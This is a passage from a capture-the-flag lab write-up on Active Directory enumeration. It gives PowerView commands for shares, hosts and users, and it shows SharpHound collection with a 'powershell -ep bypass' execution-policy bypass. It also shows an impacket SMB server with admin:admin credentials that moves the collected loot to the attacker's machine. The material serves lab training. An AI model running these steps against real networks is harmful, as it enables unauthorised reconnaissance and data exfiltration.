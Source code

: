 What is the shared folder that is not set by default?

*  `Invoke-ShareFinder`
  ![powerview-share](https://i.imgur.com/QaLVmv2.png)

### 2.2

What operating system is running inside of the network besides Windows Server 2019?

* `Get-NetComputer -fulldata | select operatingsystem`
  ![img](https://i.imgur.com/gHCcbNt.png)

### 2.3

I've hidden a flag inside of the users find it. 

* `Get-NetUser | select cn`
  as hint suggest, we needed to look into users using `powerview`.

---

## Task 03: Enumeration w/ Bloodhound

It should be obvious, but the BloodHound installation is on your attacking machine. Once you've installed it, you start neo4j on the attacker machine and then use the web interface to set your new password. Neo4j is the graph database that BloodHound uses. More at https://neo4j.com/.

 
The questions in this section can all be answered using the correct reports from within BloodHound. Note that like the Task mentioned, I was unable to load the zip archive from the upload button - I had to drag it onto the BloodHound canvas. Also, neo4j must be running for BloodHound to work.

* install Bloodhount & use `sharphound` to get the data out. use `impacket-smbserver` to start a share drive to copy `zip` file.
* BloodHound Installation
  * `apt-get install bloodhound`
  * `neo4j console` - default credentials -> neo4j:neo4j #please change it
* Getting loot w/ SharpHound -
  * `powershell -ep bypass`
  * `. .\SharpHound.ps1 #assusming you're in same dir`
  * `Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip` collect the logs.
* SMB server CMD
  
  ```bash
  impacket-smbserver pe $(pwd)  -smb2support -username admin -password admin
  # pe is the share name
  # in target (windows) run \\ip\pe enter creds as admin:admin to auth. 
  ```

* now you have all files and data, import the zip file in `bloodhount` and let's get enumerating.

### 3.1
